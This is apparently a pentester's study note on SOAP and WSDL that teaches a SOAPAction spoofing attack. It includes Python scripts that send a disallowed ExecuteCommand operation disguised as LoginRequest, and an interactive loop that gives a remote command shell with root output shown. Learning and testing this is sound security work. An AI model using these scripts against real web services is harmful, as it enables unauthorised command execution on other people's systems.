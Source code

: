 # SOAP
- [WSDL](#wsdl)
- [SOAPaction Spoofing](#soapaction-spoofing)


- SOAP (Simple Object Access Protocol) is a messaging protocol that lets programs (usually web services) send information back and forth over the internet.
- It’s like a digital envelope for sending structured information between computers.
- It mainly uses XML to format the data, and it works over many transport methods (like HTTP, SMTP, etc.).

- **Structure of a SOAP Message**
    - A SOAP message is just an XML file with specific parts:
        1. soap:Envelope (Required): Think of this as the outer wrapper or the envelope for your message.

        2. soap:Header (Optional): This is like writing “Urgent” or “Confidential” on the top of a letter. Used for extra info like authentication, tracking, or encryption instructions.

        3. soap:Body (Required): This is the main content of the message.It includes the function you’re calling and the parameters you’re sending.

        4. soap:Fault (Optional): If something goes wrong, this is where you’ll find the error message.


 
- Example SOAP Request & Response
    - Client sends a request:
    ```http
    POST /Quotation HTTP/1.0
    Content-Type: text/xml

    <SOAP-ENV:Envelope>
    <SOAP-ENV:Body>
        <GetQuotation>
        <QuotationsName>Microsoft</QuotationsName>
        </GetQuotation>
    </SOAP-ENV:Body>
    </SOAP-ENV:Envelope>
    ```
    - Server replies:
    ```xml
    <SOAP-ENV:Envelope>
    <SOAP-ENV:Body>
        <GetQuotationResponse>
        <Quotation>Here is the quotation</Quotation>
        </GetQuotationResponse>
    </SOAP-ENV:Body>
    </SOAP-ENV:Envelope>
    ```


## WSDL
- WSDL stands for Web Services Description Language.
- It is an XML-based document used to describe a web service.
- It tells clients:

    1. What services/functions are available.

    2. Where (URL) the service is located.

    3. How to call those services (input/output format, protocols).


- **Purpose of WSDL**
    - Acts like a contract between the service provider and client.

    - Helps tools (like SoapUI or Postman) automatically understand how to interact with the web service.

    - Especially useful for SOAP web services.

> [!WARNING]
> A web service's WSDL file should not always be accessible.

- **WSDL Structure**
    - `<definitions>` – Root element.

    - `<types>` – Data types used in the messages (like strings, numbers).

    - `<message>` – Describes input/output data for operations.

    - `<portType>` – Defines operations and their input/output messages.

    - `<binding>` – Specifies the protocol and data format (like SOAP).

    - `<service>` – Gives the actual URL/endpoint of the service.

- WSDL files can be found in many forms, such as `/example.wsdl`, `?wsdl`, `/example.disco`, `?disco` etc.

## SOAPAction Spoofing
- SOAP messages towards a SOAP service should include both the operation and the related parameters. 
- This operation resides in the first child element of the SOAP message's body. 
- If HTTP is the transport of choice, it is allowed to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify the operation within the SOAP body through this header without parsing any XML.
- If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to SOAPAction spoofing.



- We should pay attention to SOAPAction
```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```
- Look at the parameters
```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
``` 

- If we have try to issue commands through this parameter:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
```bash
# We got this error
python3 client.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

- The same python script with SOAPaction spoofing attack (client_soapaction_spoofing.py):
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
- Changes
    - We specify LoginRequest in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
    - We specify the parameters of ExecuteCommand because we want to have the SOAP service execute a whoami command.
    - We specify the blocked operation (ExecuteCommand) in the SOAPAction header

- If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a whoami command.
- We can automate this process:
```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


# Result:
python3 automate.py
$ id
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>uid=0(root) gid=0(root) groups=0(root)\n</result></LoginResponse></soap:Body></soap:Envelope>'
$ 
```
